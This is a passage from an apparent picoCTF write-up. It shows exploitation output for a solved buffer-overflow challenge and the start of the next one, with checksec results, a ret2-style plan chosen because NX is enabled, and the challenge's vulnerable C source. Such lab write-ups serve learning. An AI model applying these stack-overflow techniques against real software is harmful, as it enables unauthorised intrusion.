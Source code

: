 ```bash
    ESP:       0xffb1f300
    Exe:       '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_1/vuln' (0x8048000)
    Fault:     0x6161616c
[+] Opening connection to saturn.picoctf.net on port [PORT]: Done
[*] Switching to interactive mode
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_[REDACTED]}
[*] Got EOF while reading in interactive
```


# Buffer Overflow 0x2

We install the required files:

```bash
$ wget https://artifacts.picoctf.net/c/344/vuln.c \
> https://artifacts.picoctf.net/c/344/vuln
```

## 📚 Peeking Inside

We can now examine the file

```bash
$ ch ecksec --file=vuln
RELRO          STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols        No    0               3               vuln
```

We see that the **NX** bit (no execute) is set. That means we can not inject malicious code (shell code) because it will simply be ignored. Therefore we can try a `ret2` based attack. Now let's hope the binary is not stripped.

```bash
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped
```

Okay, that's great.
Now let's  peek through the source code.

```c
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```